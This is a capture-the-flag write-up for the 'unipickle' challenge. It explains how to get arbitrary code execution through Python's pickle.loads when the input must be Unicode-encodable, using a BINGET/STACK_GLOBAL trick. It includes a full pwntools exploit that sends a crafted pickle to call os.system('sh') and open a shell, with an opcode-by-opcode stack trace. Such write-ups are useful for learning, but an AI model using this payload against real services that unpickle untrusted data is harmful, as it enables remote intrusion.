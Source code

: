 # unipickle

i was able to get a first blood!!! so happy about that because i have been working with pickle for so long now if i did not get first blood i would've been so disappointed in myself

## problem

```py
#!/usr/local/bin/python
import pickle
pickle.loads(input("pickle: ").split()[0].encode())
```

standard pickle chall, but all chars must be unicode encodable

# solution

we can look at [pickle.py](https://github.com/python/cpython/blob/3.10/Lib/pickle.py) in the python source code and see what opcodes are unicode-friendly

notably, the `STACK_GLOBAL` opcode is not unicode friendly by itself

`GLOBAL` and `INST`, the other two ways to get arbitrary classes, are not possible because the `.split()[0]` in the problem makes it impossible to have any tabs, spaces, or newlines

therefore, we must find a way to use `STACK_GLOBAL`

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/35dc0137-4240-46d0-9a8e-0e3f2f85b98b)

we can get access to it by throwing away an arbitrary byte that is attached before it to make it valid unicode. notably, `b'\xc7\x93'` is a valid unicode character, for some reason.

i found that out by enumerating over a large range of integers (like 0 to 20000) and using chr() and decoding and encoding it to see if it sticked, and also only outputting the ones that have `\x93` byte in them

then, we can discard the `\xc7` by using `BINGET`, which takes a byte argument and retrieves the item assigned to byte 0xc7 from memo and puts it on the stack. 

in this case, the item was `"system"`, and the previous item on the stack was `"os"`

therefore, we can use `STACK_GLOBAL` to produce os.system, and then we can spawn a shell.

```py
from pwn import *
from pickle import *

p = remote("mc.ax", 31773)

bs = lambda _: SHORT_BINSTRING + int.to_bytes(len(_), 1, 'big') + b"" + _.encode() + b""

q = (bs('os') + bs('system') + BINPUT + b'\xc7\x88' + POP + POP + BINGET + b'\xc7\x93' + MARK + bs('sh') + TUPLE + REDUCE + STOP)

print(q)
print(q.split())

p.sendline(q)

p.interactive()
```

also, we had to use `SHORT_BINSTRING` because it had all unicode-compliant characters (we cannot use binunicode because it requires `\n` iirc)

also, we don't need `PROTO` because it is assumed as 0, which is fine i guess

what the payload does to the stack and memo is below

```
start of pickle
["os"] {} - put os on the stack
["os", "system"] {} - put system on the stack
["os", "system"] {199: "system"} - store system at 0xc7 in memo
["os", "system", True] {199: "system"} - put True on the stack to make the 0xc7 compliant with unicode
["os", "system"] {199: "system"} - pop the unnecessary True
["os"] {199: "system"} - pop system since we have to binget it later
["os", "system"] {199: "system"} - binget system in memo at 0xc7
[os.system] {199: "system"} - stack global with another byte for unicode compliance
[os.system, MARK] {199: "system"} - put MARK on the stack (we cannot use TUPLE1, but we can use TUPLE opcode)
[os.system, MARK, "sh"] {199: "system"} - put sh on the stack
[os.system, ("sh",)] {199: "system"} - put sh into a tuple by itself
[None] {199: "system"} - execute the payload
end of pickle
```

took me about 20 minutes to first blood it when i first saw the challenge, but it was a bit after the ctf started and somehow i was able to firstblood it still

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/517144e2-695b-438e-8272-a3df9788e0ec)
